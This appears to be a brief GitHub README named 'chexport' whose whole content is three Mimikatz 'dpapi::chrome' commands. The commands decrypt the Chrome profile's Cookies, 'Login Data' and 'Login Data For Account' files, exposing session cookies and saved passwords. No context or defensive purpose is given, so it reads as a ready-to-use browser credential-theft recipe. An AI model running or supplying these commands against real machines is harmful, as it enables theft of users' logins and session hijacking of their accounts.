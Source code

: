 # chexport

```dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies" /unprotect```

```dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data For Account" /unprotect```

```dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect```
